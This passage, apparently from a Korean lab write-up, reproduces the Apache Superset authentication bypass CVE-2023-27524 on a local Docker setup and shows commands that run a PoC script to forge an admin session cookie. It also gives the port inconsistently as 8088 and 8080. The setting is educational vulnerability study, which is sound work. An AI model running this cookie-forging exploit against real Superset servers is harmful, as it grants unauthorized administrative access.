 2-3 컨테이너 및 포트 확인
Docker Desktop 컨테이너가 정상 실행되었는지 확인하고, 브라우저로 접속한다.

![alt text](<port check.png>)
브라우저에 접속하기 위해 포트번호를 확인하고 접속한다.
필자의 포트는 8088로 http://127.0.0.1:8080로 접속한다
![alt text](browser.png)
접속이 완료됨을 보여준다.
이것이 뜻하는 바는 세션 쿠키를 위조하여 Superset에 로그인하는 과정은, 해당 취약점이 인증 우회 가능하다는 것을 보여준다. 별도의 사용자 계정 없이도 접근이 가능하다는 점에서 위험성을 보인다.

2-4 CVE-2023-27524 PoC 실행
이를 위해 
# Install dependencies
pip install -r requirements.txt

# Forge an administrative session (whose user_id is 1) cookie
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
